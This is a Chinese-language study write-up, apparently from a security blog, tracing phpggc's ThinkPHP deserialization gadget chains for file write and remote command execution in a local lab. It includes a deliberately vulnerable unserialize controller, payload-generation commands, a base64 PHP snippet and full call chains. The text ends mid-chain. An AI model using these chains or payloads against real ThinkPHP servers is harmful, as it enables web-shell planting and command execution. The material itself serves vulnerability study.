






> phpggc中关于thinkphp的攻击思路学习

<!--more-->

## 5.0.4-5.0.24 写文件

使用用法

```
第一个参数是要写到哪个文件夹下面,第二个参数是本地的文件路径,后面base64会将换行符号去除
./phpggc ThinkPHP/FW1 /srv/http/tp5/ shell.php | base64 -w 0
```

### 环境搭建

在controller下面的`Index.php`中写入反序列化代码

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    { unserialize(base64_decode($_GET['a']));
    }
}
```


### 漏洞分析

调试开始, 首先在`think\Process#__destruct`下断点, 随后跟进到close函数中,这里控制`processPipes`为`think\model\relation\HasMany`对象,触发其`__call`方法,进而进入其`baseQuery `方法. 在这个方法中可以触发`think\console\Output`的`__call`方法


在这个`__call`方法中,可以看到调用了`call_user_func_array`函数, 调用的是block函数, 参数是我们控制的payload


这里前面的AAA是为了绕过后文中出现的死亡exit而添加的.后面再说.

又经过了`think\console\Output`的writeln 和write 方法后进入 `think\session\driver\Memcache#write`,


handler是`think\cache\driver\Memcached`对象,进入其set方法

<butu

进入set方法中的has方法



handler是`think\cache\driver\File`对象,get方法调用了getCacheKey方法




返回结果为`php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php`, 因为这不是一个文件,所以返回了default的值也就是false, 那么前面提到的`think\cache\driver\Memcached#has`返回的也是false.

回到`think\cache\driver\Memcached#set`,进入`think\cache\driver\Memcached#getCacheKey`,返回的key是`<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>` 


随后进入下面一行的`think\cache\driver\File#set`, *注意这里是第一次进入think\cache\driver\File#set* .


在这个set方法中调用`getCacheKey`方法, 和之前一样返回的是`php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42` , 然后在下文进行一次文件写,*但是这里写出来的文件不是目标文件!*, 你看: 


exit后面不是我们的payload, 但是别着急, 之后还会回来这里一次, 那次就会将payload写进去了. 

这一步之后, 返回`think\cache\driver\Memcached#set`, 并随之调用setTagItem方法


tag的生成是根据`this->tag`的md5值来决定的, 这里`this->tag`是null, 所以生成的tag是我们可以预测的值也就是`tag_c4ca4238a0b923820dcc509a6f75849b`, 然后带着这个tag值和我们的payload作为key和value , 再次进入`think\cache\driver\Memcached#set`方法, 并在其中第二次进入`think\cache\driver\File#set`方法


注意到和第一次进入`think\cache\driver\File#set`有什么不一样吗? 第一次进入的时候, payload的值(也就是`<where>AAAxxxxxx`那个东西)是被赋值给了set函数的name参数, 但是第二次进入的时候, name参数tag值, value参数是payload.

最后在这次set函数中, 成功将payload拼接在了exit后面, 并使用`php://filter`成功绕过, 当然,通过getCacheKey方法得到的文件名只不过是对tag值的一次md5而已.



到此为止,成功写入文件, 需要注意的是phpggc生成的这个payload写入的文件文件名是固定的`3b58a9545013e88c7186db11bb158c44.php`, 理由前面说过, 就是该文件名的生成就null值的md5再拼接上字符串`tag_`然后再进行md5.

整体思路如下, 感觉最关键的还是在setTagItem那一步, 那一步将原本是key的payload变成了value参数, 并使其在后面成功被写入文件. 

```
think\Process#__destruct --> 
think\Process#stop --> 
think\model\relation\HasMany#close --> 
think\model\relation\HasMany#__call --> 
think\model\relation\HasMany#baseQuery --> 
think\console\Output#where --> 
think\console\Output#__call --> 
call_user_func_array --> 
think\console\Output#block --> writeln --> write --> 
think\session\driver\Memcache#write --> 
think\cache\driver\Memcached#set (1) --> 
think\cache\driver\Memcached#has --> 
think\cache\driver\File#get --> getCacheKey --> 将php://filter伪协议拼接到开头,返回php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php ,注意这个文件不是目标文件 --> 
think\cache\driver\Memcached#getCacheKey 返回<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where> --> 
think\cache\driver\File#set --> getCacheKey获取文件名,对<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>进行md5之后进行拼接成为php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php,同时这里可以进行一个mkdir,然而这里的目录名是非法的,然后返回文件名 --> 
回到set方法,$data前面拼接上了死亡exit,进行file_put_contents,生成文件 6a644d26b09257b882dae6e407f23d42.php,内容为乱码 --> 
回到(1) 函数 --> 
think\cache\driver\Memcached#setTagItem 生成可控的tag名--> 
再次进入think\cache\driver\Memcached#set , 两个参数都可控 --> 
think\cache\driver\File#set 参数是前面的两个参数 --> getCacheKey 将tag名进行md5之后进行拼接得到 php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php --> 
回到\think\cache\driver\File#set 对之前可控参数之一data进行死亡exit拼接,并进行file_put_contents,效果就是file_put_contents('php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php', '<?php\n//000000000000\nexit();?>\ns:46:"<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>";') --> 
文件写入成功,内容为乱码+php代码
```

## 5.0.24 RCE

### 环境搭建

同上

### 漏洞分析

首先生成payload

```
./phpggc ThinkPHP/RCE2 system "touch /tmp/helloman" | base64 -w 0
```

开始调试前, 请确认你的php环境的版本, 如果版本是php7.x, 请打开文件`thinkphp/library/think/db/Query.php`  看第400行代码, 这里使用我的带有警告提示的vim看: 


这种写法在php7.x中已经被弃用, 具体是哪一个子版本我没有深究. 总之, 如果发现payload不能执行, 请切换自己的php版本, 或者像我一样将这一行删掉改成上图第400行.

PS: 这里要吐槽一下Arch Linux Aur里面的php56-xdebug包...17年开始就不更新了, 21年都有用户在评论说得修改构建文件才可以安装.

好了, 下面开始调试.

第一部分, 和过往thinkphp5.0.24写文件反序列化链的前半部分一样,具体可以参考https://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/#more  , 这里就简单说明.

首先进入`think\process\pipes\Windows#__destruct`的`think\process\pipes\Windows#removeFiles`, 其中的`file_exists`函数会触发`think\model\Pivot#__toString`, 然后`think\model\Pivot`会触发内部的`toJson` 然后触发`toArray`, 在这个函数中, 控制代码执行到912行的`$value->getAttr($attr)`, `$value`是`think\console\Output`对象, 这会触发`think\console\Output#__call` 


接下来触发`think\console\Output`的`block` `writeln` `write` 三个方法


handle是`think\session\driver\Memcached`对象


handler是`think\cache\driver\Memcache`对象, 它的set 方法会调用它的has方法


这里, handler是`think\Request`对象,  rce最终将会在这个对象中触发, 跟进可以看到调用了`input`方法


在input方法中, input方法的参数如下

```
public function input($data = [], $name = '', $default = null, $filter = '')
```

输入的参数如下



经过了一系列对数组的处理后 , 代码进入`$filter = $this->getFilter($filter, $default);`



在这里, "system" 字符串会被赋予给filter并转换为数组后返回

接下来代码执行到`$this->filterValue($data, $name, $filter);`输入如下




到这里代码执行完成.

完整调用链条

```
think\process\pipes\Windows#__destruct -->
think\process\pipes\Windows#removeFiles -->
file_exists --> 
think\model\Pivot#__toString --> 
think\model\Pivot#toJson --> 
think\model\Pivot#toArray --> 
$value->getAttr($attr) --> 
think\console\Output#__call --> 
think\console\Output#block --> 
think\console\Output#writeln --> 
think\console\Output#write --> 
$this->handle->write --> 
think\session\driver\Memcached#write --> 
$this->handler->set --> 
think\cache\driver\Memcache#set --> 
think\cache\driver\Memcache#has -->
$this->handler->get --> 
think\Request#get --> 
think\Request#input --> 
think\Request#filterValue --> 
call_user_fund($filter, $value)
```

ps: 该链子的前半部分可以使用FW1链子的前半部分 ,也就是

```
think\Process#__destruct --> 
think\Process#stop --> 
think\model\relation\HasMany#close --> 
think\model\relation\HasMany#__call --> 
think\model\relation\HasMany#baseQuery --> 
think\console\Output#where --> 
think\console\Output#__call
```

## 5.1.x-5.2.x RCE

### 环境搭建

```
./phpggc ThinkPHP/RCE1 system id | base64 -w 0
```

```
composer create-project topthink/think=5.1.41 thinkphp5141  --prefer-dist
```

和之前一样,写入一个反序列化入口.

### 漏洞分析

首先,反序列化进入`think\process\pipes\Windows#__destruct`, 进入`removeFiles`方法


filename 是 `think\model\Pivot`  对象,  `file_exists`方法触发`__toString`方法, 经过`toJson` 方法后触发`toArray`方法, 部分代码如下


`think\model\Pivot->data`从父类`think\model`中获取, `relation`为空, 得到结果为`{smi1e => "id"}`

接着触发`$this->getAttr($key)`, key是`smi1e`.


首先通过`getData`函数,获取到字符串id, 然后通过`$this->withAttr[$fieldName]` 获取到system字符串, 中间能跳过的if判断都跳过


最后在第493进行动态执行, 这里传入的参数有两个,第一个就是要执行的命令, 第二个根据php手册, 应该是int类型的引用变量, 负责记录命令执行 的结果, 但是这里为什么传入第二个参数是数组却还是可以执行呢? 我也不知道, 不过确实是可以的, 可以执行以下代码来验证

```php
<?php
$a = ["smile"=>"id"];
system("touch flag",$a);
```

```
think\process\pipes\Windows#__destruct -->
think\process\pipes\Windows#removeFiles -->
file_exists --> 
think\model\Pivot#__toString --> 
think\model\Pivot#toJson --> 
think\model\Pivot#toArray --> 
think\model\Pivot#getAttr --> 
think\model\Pivot#getData 获取命令字符串 --> 
通过可控数组索引获取system字符串, b
```

